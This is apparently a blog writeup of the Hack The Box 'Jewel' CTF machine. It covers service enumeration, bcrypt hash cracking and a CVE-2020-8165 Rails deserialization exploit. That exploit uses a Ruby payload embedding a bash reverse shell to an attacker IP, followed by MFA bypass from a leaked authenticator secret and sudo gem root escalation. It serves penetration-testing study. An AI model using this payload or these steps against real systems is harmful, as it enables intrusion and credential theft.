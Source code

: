 ```yaml
---
layout: post
title:  "Hack The Box - Jewel Writeup"
date:   2021-02-13 06:00:00
categories: Security CTF HTB"
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Jewel/Header.png)

Jewel is an Medium level linux machine. Based on the creator and community statistics, we'll likely have a decent amount of enumeration to get through, while working off of existing CVEs against a somewhat realistic environment.  
![Statistics](../images/HTB-Jewel/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -Pn -p22,8000,8080 -sC -sV -oA Extracts/Jewel 10.10.10.211`  
![Nmap](../images/HTB-Jewel/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 8000 - HTTP**: A basic websever hosting what appears to be an instance of [Gitweb](https://git-scm.com/book/en/v2/Git-on-the-Server-GitWeb). We should look for source code here.
* **Port 8080 - HTTP**: Another webserver, but this one is running a small blog off of an installation of [Phusion Passenger](https://www.phusionpassenger.com/).

We'll also want to add Jewel.htb to our hosts file.

### Blog
Navigating the Blog on port 8080, we're able to identify a couple of existing users: `Bill` and `Jennifer`. We're also able to create our own user, but do not appear to have the ability to post content of our own. We can, however, edit our account username.  
![Edit User](../images/HTB-Jewel/Info_Blog.png)

### Gitweb
Moving on to the Gitweb content hosted on port 8000, we appear to have open read-only access to the entire blog project repository. After searching through many of the files, we come across the password hashes belonging to both Bill and Jennifer. Based on the `$2a$` at the start of the hash, we know that they're protected using the bcrypt hashing algorthm. This is a very strong and time consuming hash to break, but we can let it run against the `rockyou.txt` list for a bit while we continue into other areas.

`>> ./hashcat.exe -a0 -m3200 hash.txt rockyou.txt --username`

### Gemfile
In reference to the title of this box, there's a very strong possibility that our foothold will be something to do with Ruby on Rails. The Gemfile can tell us a lot about the project, including any vulnerabilities within the packages being used. By using tools such as [Hakiri](https://hakiri.io/), we're able to identify a range of vulnerabilities.  
![Gemfile Vulns](../images/HTB-Jewel/Info_Gemfile.png)

## Foothold
Reading through our findings, we eventually come across some interesting information regarding [CVE-2020-8165](https://github.com/masahiro331/CVE-2020-8165). It looks like this may be our way in.

### Generating The Payload
Working through the steps provided in the above repo, we're able to put together a payload that should get us a shell onto the box.  
```
code = '`bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"`'
erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1
payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
puts "Payload"
require 'uri'
puts URI.encode_www_form(payload: payload)
```

### Reverse Shell
First thing we'll do is set up our listener on the port we provided in the payload generation.  
`>> nc -lvnp 4444`

Going back to our blog post account, there was one area we were able to submit data: Edit User Account. When we try to submit our payload through the UI, we end up with an error due to the input being too long. But by capturing our request through Burpsuite, we're able to manipulate the data after validation takes place.  
![Burp Proxy](../images/HTB-Jewel/Foothold_Burp.png)  

Refreshing the blog site results in triggering our code.  
![Reverse Shell](../images/HTB-Jewel/Foothold_Shell.png)

### User Flag
![User Flag](../images/HTB-Jewel/User_Flag.png)

## Privilege Escalation
With a direct connection into the box, the first thing we'll do is upgrade our shell:  
`>> python -c "import pty;pty.spawn('/bin/bash')"`  
`>> export TERM=xterm;`  

### Backups
Looking around the box, we come across a backup SQL script, again discovering bcrypt password hashes for the Bill and Jennifer users. While we were unsuccessful in cracking the hashes on our first go around, these hashes are different and may be weaker than before.  

Password Hashes:  
`jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO`  
`bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW`  

`>> ./hashcat.exe -a0 -m3200 hash.txt rockyou.txt --username`  

![Hash Cracking](../images/HTB-Jewel/PrivEsc_Hash.png)

Looks like Bill's password is spongebob. Let's see what he can run as sudo.  
![Sudo Fail](../images/HTB-Jewel/PrivEsc_Sudo1.png)  

### Google Authenticator
A bit different than what we normally encounter, Bill's account is protected by multi-factor authentication. We'll need to find out what he's using and how to get around it.

Back in the /home/bill directory, there's a hidden .google_authenticator configuration file we're able to extract a key from: `2UQI3R52WFCLE6JTLDCSJYMJH4`. Configuring the Google Authenticator plugin for Chrome, we're able to successfully generate a verification token.  

![Google Authenticator](../images/HTB-Jewel/PrivEsc_Authenticator.png)  

### Sudo Gem
Now that we've got Bill's credentials and MFA token, we're able to see that he has the ability to run Ruby's `gem` command as root.  

![Sudo Success](../images/HTB-Jewel/PrivEsc_Sudo2.png)  

Referencing the `gem` section of [GTFOBins](https://gtfobins.github.io/gtfobins/gem/), we're shown how to leverage our access and escalate to root.  
`>> sudo gem open -e "/bin/sh -c /bin/sh" rdoc`  
![Privilege Escalation](../images/HTB-Jewel/PrivEsc_Gem.png)  

### Root Flag
![Root Flag](../images/HTB-Jewel/Root_Flag.png)  